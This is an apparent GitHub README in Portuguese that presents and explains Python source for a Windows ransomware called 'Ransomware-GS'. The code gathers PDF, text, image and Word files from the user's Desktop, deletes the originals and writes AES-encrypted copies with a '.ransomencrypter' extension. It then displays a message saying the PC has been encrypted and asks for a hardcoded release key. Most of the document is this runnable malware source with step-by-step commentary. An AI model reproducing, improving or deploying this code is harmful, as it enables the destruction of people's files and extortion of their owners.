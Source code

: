 # Ransomware-GS
 Descrição do funcionamento do ransomware.
 
 
Esse ransomware foi feito para funcionar em windows.


 Primeiramente precisamos fazer os imports necessários 
 
 
import os  # sistema operacional


import glob  # busca os arquivos


import time


import pyaes  # biblioteca de criptografia aes

 
from pathlib import Path  # pathlib utilizada para setar os caminhos
Após fazer os imports podemos começar a programar o código propriamente dito.
 
Aqui nós estamos listando as extensões dos tipos de arquivos que queremos criptografar, e exibir a mensagem que estamos criptografando.

lst_arqui = ['*.pdf', '*.txt', '*.jpg', '*.doc', ]

print('Criptografando')

time.sleep(3)
 
Aqui estamos confirmando que os arquivos que tem que ser criptografados existem, nesse código eu escolhi criptografar os arquivos existentes no desktop.
try:

    desktop = Path.home() / "Desktop"
except Exception:
    pass
os.chdir(desktop)
 
Aqui é onde a criptografia ocorre, esse é o núcleo do nosso código, primeiro de tudo ele vai abrir os arquivos que foram identificados anteriormente, usando o ‘rb’ que significa read binary ou seja ele está lendo os bytes daquele arquivo, depois disso ele remove os arquivos do desktop e os criptografá, usando a chave de criptografia definida por meio do pyaes utilizando o AES para criptografar o arquivo, o AES é extremamente simples de ser utilizado por isso ele foi a escolha para esse código, e depois de criptografado os arquivos retornam para o desktop como .ransomencrypter
 
def criptografando():

    for arquivos in lst_arqui:
        for format_arqui in glob.glob(arquivos):
            print(format_arqui)
            A = open(f'{desktop}\\{format_arqui}', 'rb')  # rb = read binary e wb = write binary
            data_arqui = A.read()
            A.close()
            os.remove(f'{desktop}\\{format_arqui}')
            key = b"1ab2c3e4f5g6h7i8"  # 16 byts key - chave
            aes = pyaes.AESModeOfOperationCTR(key)  # gera a criptografia
            crypto_data = aes.encrypt(data_arqui)
            novo_arqui = format_arqui + ".ransomencrypter"
            novo_arqui = open(f'{desktop}\\{novo_arqui}', 'wb')
            novo_arqui.write(crypto_data)
            novo_arqui.close()
 
Este é o nosso descrypt ele é o responsável por fazer o processo inverso ao anterior e descriptografar o arquivo, primeiro ele checa se os arquivos são um .ransomencrypter e os le e então utilizando a chave ele descriptografa os arquivos e retorna eles para o estado anterior como se nada tivesse acontecido
 
 def descrypt(decrypt_file):
   try:
   
       for arquivo in glob.glob('*.ransomencrypter'):
            keybytes = decrypt_file.encode()
            name_arquivo = open(arquivo, 'rb')
            data_arqui = name_arquivo.read()
            akey = keybytes
            aaes = pyaes.AESModeOfOperationCTR(akey)  # gera a decriptografia
            decrypt_data = aaes.decrypt(data_arqui)

            format_file = arquivo.split('.')
            new_nome_arquivo = format_file[0] + '.' + format_file[1]

            dnovo_arquivo = open(f'{desktop}\\{new_nome_arquivo}', 'wb')
            dnovo_arquivo.write(decrypt_data)
            dnovo_arquivo.close()
    except ValueError as err:
        print('Chave errada, que pena ;(')
        
Aqui é onde a mensagem de criptografia é exibida assim que os arquivos forem encriptados e pede pela chave de liberação 'Seu PC foi criptografado :p, informe a chave  para liberar os arquivos:', se a chave estiver correta ele descriptografa os arquivos e se ela não estiver correta ele exibe a mensagem 'Chave de liberação inválida.', e caso ela esteja correta o código se encerra. 
 
 
 
if __name__ == '__main__':

    criptografando()
    if criptografando:
        key = input('Seu PC foi criptografado :p, informe a chave  para liberar os arquivos:')
        if key == '1ab2c3e4f5g6h7i8':  # confirma se a chave de descriptografia foi colocada corretamente e entãos descriptografa
            descrypt(key)
            for del_file in glob.glob('*.ransomencrypter'):
                os.remove(f'{desktop}\\{del_file}')
        else:
            print('Chave de liberação inválida, que pena ;(')
